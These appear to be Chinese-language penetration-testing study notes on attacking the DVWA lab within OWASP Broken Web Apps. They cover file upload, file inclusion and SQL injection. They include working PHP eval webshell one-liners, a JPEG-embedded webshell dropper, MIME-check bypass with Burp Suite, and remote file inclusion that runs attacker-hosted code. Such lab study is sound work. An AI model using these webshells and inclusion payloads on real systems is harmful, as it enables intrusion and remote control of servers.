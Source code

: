 ﻿# 网络安全
       
> 靶机下载地址:  
>
> https://sourceforge.net/projects/owaspbwa/files/1.2/OWASP_Broken_Web_Apps_VM_1.2.zip/download 
>
> 攻击机下载地址: 下载VMware版本
>
>  https://www.kali.org/downloads/  

> 靶机启动后会自动开启一些有漏洞的web项目服务, 直接访问靶机地址可访问这些项目

> 靶机和攻击机首次启动后要 dhclient -r eth0 释放网卡上绑定的ip地址, 然后 dhclinet eth0 重新获取ip
>
> 如果获取不到 ip , vmware -> 编辑 -> 虚拟网络编辑器 -> 还原默认值设置
>
> 如果还是获取不到ip , 计算机的服务 -> 打开vmware相关服务



#### robots.txt

> 放到网站根目录下, 用来告诉搜索引擎哪些路径可以爬取, 哪些路径不可爬取, 
>
> 但是同时也暴露了本网站的目录结构



#### 文件上传漏洞渗透

![](文件上传马.png)

###### 低安全级别 

> 无任何上传验证

1. 访问靶机中的 Damn Vulnerable Web Application 项目, 账密 admin/admin

2. 点击进入 upload 页面

3. 在默认的低安全级别下, 上传php文件

   ```php
   <?php @eval($_POST['chopper']);?>
   ```

4. 在中国菜刀中添加靶机中该php文件的地址 `<ip>/dvwa/hackable/uploads/xxx.php` , 和密码为 chopper

5. 使用中国菜刀可直接操作靶机

6. 靶机中文件上传的位置为 /var/www/dvwa/hackable/uploads

###### 中安全级别

> 验证请求头中 文件的mime类型 和大小

> burpsuite 可以做代理, 先将请求发给它, 然后修改请求头的mime类型再转发出去, 从而破解后台的文件类型验证
>
> kali 自带了 burpsuite

1. 在kali中进入burpsuite -> 启动一个项目 -> 使用默认参数 -> option设置谁可以使用它来代理, 默认就是本机
2. 在 burpsuite -> proxy -> intercept is on 设置拦截请求
3. 在kali中进入 火狐浏览器 -> 设置 -> advanced -> network -> connection -> settings -> manual proxy configuration -> 输入本机的8080为代理服务 
4. 将 dvwa 的安全级别调成 中
5. 进入 upload 页面, 上传上面那个php文件 , 此时因为请求被代理拦截, 所以一直显示正在加载
6. 在 burpsuite的 proxy 可查看到被拦截的请求, 手动将请求头中改为 Content-type : image/jpeg , 然后点击 forward转发请求, 因为改了请求头的mime类型, 所以后台文件类型验证不会拦截
7. 文件上传成功则可使用菜刀进行远程控制

###### 高安全级别

> 验证文件扩展名
>
> 通过文件包含漏洞可破解



#### 文件包含漏洞

> php服务器开启了 allow_url_include 选项, 该选项在 php 配置文件中查看 ,即允许远程包含文件, 同时在php的包含检校中又没有做包含文件类型的验证
>
> 此时就可以通过修改url路径中的包含文件 , 远程包含攻击机上的恶意文件 , 在恶意文件中加入生成 php类型 的 webshell 文件 的代码, 在被包含时就会执行并在靶机上生成webshell 文件, 然后就可以使用菜刀远程连接控制
>
> dvwa 上的 file inclusion 

##### 低安全级别

###### 本地文件包含

> 无任何包含文件检校
>
> 这种方式实际上就是在破解上面 文件上传漏洞 的高安全级别

1. 先找一个 xxx.jpg , 使用 edjpgcom 工具 (吾爱破解下载) 修改图片文件, 添加 生成webshell的代码

   ```php
   <?fputs(fopen("shell20.php","w"),'<?php eval($_POST[xxx]);?>')?>
   ```

2. 将该 jpg 文件通过上面那个 文件上传功能 上传到攻击机上

3. 打开 文件包含 页面, 修改url路径中的page参数为刚才上传图片的相对路径并访问, 然后网页会执行该 图片中的代码, 生成 webshell 文件

4. 使用菜刀连接进行远程控制 

###### 远程文件包含

1. 随便找个机器开启一个服务, 然后在里面添加一个 txt 文件 , 这个txt里面就写生成 webshell 文件的代码
2. 在文件包含页面设置 page 参数为 远程文件的路径 , 格式大概是 `http://<ip>:<端口>/<文件路径>` 即可直接执行txt中的代码生成 webshell
3. 使用菜刀连接控制



##### 中安全级别

> 限制了远程文件包含, 将 https:// 或 https:// 改为 空
>
> 那么对于本地文件包含的入侵是没有影响的, 
>
> 对于远程文件包含, 设置的 url 应当改为 `httphttp://://ip:端口/文件路径`



##### 高安全级别

> 只能包含指定名字的文件
>
> 没有办法破解





#### SQL注入

> mysql 数据库中有一个名字为 information_schema 的库, 这个库以表的形式存放整个数据库中其他库和表的所有信息
>
> select * from information_schema.TABLES\G 查看数据库中所有的表信息
>
> select DISTINCT TABLE_SCHEMA from information_schema.TABLES\G 查看数据库中所有的库名
>
> select * from information_schema.columns\G 查看数据库中所有的列信息